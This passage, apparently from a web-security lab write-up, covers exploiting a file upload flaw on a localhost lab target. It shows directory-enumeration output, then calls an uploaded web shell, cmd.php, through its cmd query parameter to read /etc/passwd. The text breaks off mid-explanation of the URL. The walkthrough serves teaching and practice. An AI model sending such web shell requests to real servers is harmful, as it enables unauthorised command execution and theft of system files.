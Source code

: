 ```
.hta                    [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 176ms]
.htaccess               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 234ms]
.htpasswd               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 966ms]
uploads                 [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 1ms]

```

and if we go&#x20;

```
http://localhost/labs/uploads/cmd.php
```

<figure><img src="../../../.gitbook/assets/image (224).png" alt=""><figcaption></figcaption></figure>

To trigger the execution of the injected payload and run a shell command, you need to pass the desired command as a query parameter in the URL.

The URL structure typically looks like `http://localhost/labs/uploads/cmd.php?cmd=YOUR_COMMAND_HERE`.

So it's there, now we need to use it like we coded it and set the cmd variable to what we want:

```
http://localhost/labs/uploads/cmd.php?cmd=cat%20/etc/passwd
```

<figure><img src="../../../.gitbook/assets/image (225).png" alt=""><figcaption></figcaption></figure>

This is the base URL of the web application or server. It points to a specific file named `cmd.php` in the `uploads` directory

The question mark `?` is a separator indicating the start of the query parameters. Anything after the question mark is considered part of the query string.

`cmd`
